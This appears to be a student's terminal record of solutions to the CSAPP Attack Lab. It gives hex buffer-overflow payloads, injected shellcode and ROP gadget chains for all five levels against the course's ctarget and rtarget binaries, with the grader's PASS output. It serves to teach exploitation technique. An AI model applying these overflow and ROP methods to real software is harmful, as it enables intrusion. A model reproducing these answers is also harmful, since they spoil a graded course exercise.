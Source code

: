 # 1
~/new_space/CSAPP_Lab/Attack/target1 (master*) » cat exploit.txt | ./hex2raw | ./ctarget -q         czy@czy-307-thinkcentre-m720q-n000
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 40 00

~/new_space/CSAPP_Lab/Attack/target1 (master*) » bat exploit.txt                                    czy@czy-307-thinkcentre-m720q-n000
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 41 41 41 42 41 41 43 41 41 44 41 41 45 41 41 46 41 41 47 41 41 48 41 41 49 41 41 4A 41 41 4B 41 41 4C 41 41 4D 41 41 4E C0 17 
       │ 40 00 /* Level 1*/
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

# 2
*[master][~/new_space/CSAPP_Lab/Attack/target1]$ cat exploit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 93 DC 61 55 
*[master][~/new_space/CSAPP_Lab/Attack/target1]$ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 ~ │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
   3 ~ │ 68 ec 17 40 00          /* pushq  $0x4017ec */
   4 ~ │ c3                      /* retq */
   5 ~ │ 93 DC 61 55             
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────



# 3
➜  target1 git:(master) ✗ ./ctarget -i exploit-raw.txt -q          
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 93 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
➜  target1 git:(master) ✗ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 a8 dc 61 55    /* mov    $0x5561dc88,%rdi */
   3 ~ │ 68 fa 18 40 00          /* pushq  $0x4018fa */
   4   │ c3                      /* retq */
   5 ~ │ 93 DC 61 55 00 00 00 00           
   6 ~ │ 35 39 62 39 39 37 66 61 00


# 4
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » ./rtarget -i exploit-raw.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00
   2   │ 00 00 00 00 00 00 00 00
   3   │ 00 00 00 00 00 00 00 00
   4   │ 00 00 00 00 00 00 00 00
   5   │ 00 00 00 00 00 00 00 00
   6   │ ab 19 40 00 00 00 00 00         /* popq  %rax */
   7   │ fa 97 b9 59 00 00 00 00         /* cookie */
   8   │ c5 19 40 00 00 00 00 00         /* mov   %rdi, %rax */
   9   │ ec 17 40 00 00 00 00 00
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
czy-307-thinkcentre-m720q-n000 :: CSAPP_Lab/Attack/target1 » 

# 5
<<< czy@czy-ThinkCentre~/new_space/CSAPP_Lab/Attack/target1
>>> bat exploit.txt                                                                       ‹git:master ✘› 00:18.04 Sun Dec 24 2023 >>> 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 + │ 00 00 00 00 00 00 00 00 
   2   │ 00 00 00 00 00 00 00 00
   3 + │ 00 00 00 00 00 00 00 00 
   4   │ 00 00 00 00 00 00 00 00
   5 ~ │ 00 00 00 00 00 00 00 00 
   6 ~ │ ad 1a 40 00 00 00 00 00     /* movq %rsp, %rax */
   7 ~ │ a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
   8 ~ │ cc 19 40 00 00 00 00 00     /* popq %rax */
   9 ~ │ 48 00 00 00 00 00 00 00     
  10 ~ │ dd 19 40 00 00 00 00 00     /* movl %eax, %edx */
  11 ~ │ 70 1a 40 00 00 00 00 00     /* movl %edx, %ecx */
  12 ~ │ 13 1a 40 00 00 00 00 00     /* movl %ecx, %esi */
  13 ~ │ d6 19 40 00 00 00 00 00     /* lea  (%rdi,%rsi,1),%rax */
  14 ~ │ a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
  15 ~ │ fa 18 40 00 00 00 00 00     /* touch3 address */
  16 ~ │ 35 39 62 39 39 37 66 61     /* cookie string*/
Continuing.
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
[Inferior 1 (process 33294) exited normally]